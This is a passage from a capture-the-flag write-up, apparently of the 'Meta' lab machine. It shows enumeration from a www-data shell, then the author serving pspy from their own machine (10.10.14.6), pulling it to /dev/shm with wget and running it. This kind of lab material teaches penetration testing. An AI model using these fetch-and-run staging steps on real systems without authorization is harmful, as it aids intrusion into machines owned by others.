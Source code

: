 ### Enumeration

#### Home Directories

There’s one home directory on Meta:

    
    
    www-data@meta:/home$ ls
    thomas
    

This directory has `user.txt`, but www-data can’t read it:

    
    
    www-data@meta:/home/thomas$ ls -la
    total 32
    drwxr-xr-x 4 thomas thomas 4096 Jan 17 07:53 .
    drwxr-xr-x 3 root   root   4096 Aug 29  2021 ..
    lrwxrwxrwx 1 root   root      9 Aug 29  2021 .bash_history -> /dev/null
    -rw-r--r-- 1 thomas thomas  220 Aug 29  2021 .bash_logout
    -rw-r--r-- 1 thomas thomas 3526 Aug 29  2021 .bashrc
    drwxr-xr-x 3 thomas thomas 4096 Aug 30  2021 .config
    -rw-r--r-- 1 thomas thomas  807 Aug 29  2021 .profile
    drwx------ 2 thomas thomas 4096 Jan  4 10:22 .ssh
    -rw-r----- 1 root   thomas   33 Jun  3 14:41 user.txt
    

#### Processes

After not finding much else, I’ll upload
[pspy](https://github.com/DominicBreuker/pspy) to look for anything that might
be running on a cron, especially as thomas. I’ll host the file on my computer
with a Python webserver (`python3 -m http.server 80`), and then fetch it to
`/dev/shm` using `wget`:

    
    
    www-data@meta:/dev/shm$ wget 10.10.14.6/pspy64 
    --2022-06-03 16:32:38--  http://10.10.14.6/pspy64
    Connecting to 10.10.14.6:80... connected.
    HTTP request sent, awaiting response... 200 OK 
    Length: 3078592 (2.9M) [application/octet-stream]
    Saving to: 'pspy64'
                                                                
    pspy64              100%[===================>]   2.94M  2.31MB/s    in 1.3s    
    
    2022-06-03 16:32:40 (2.31 MB/s) - 'pspy64' saved [3078592/3078592]
    
    www-data@meta:/dev/shm$ chmod +x ./pspy64
    

When I run it, I’ll see that every minute there’s some interesting activity as
thomas:

    
    
    www-data@meta:/dev/shm$ ./pspy64               
    pspy - version: v1.2.0 - Commit SHA: 9c63e5d6c58f7bcdc235db663f5e3fe1c33b8855
    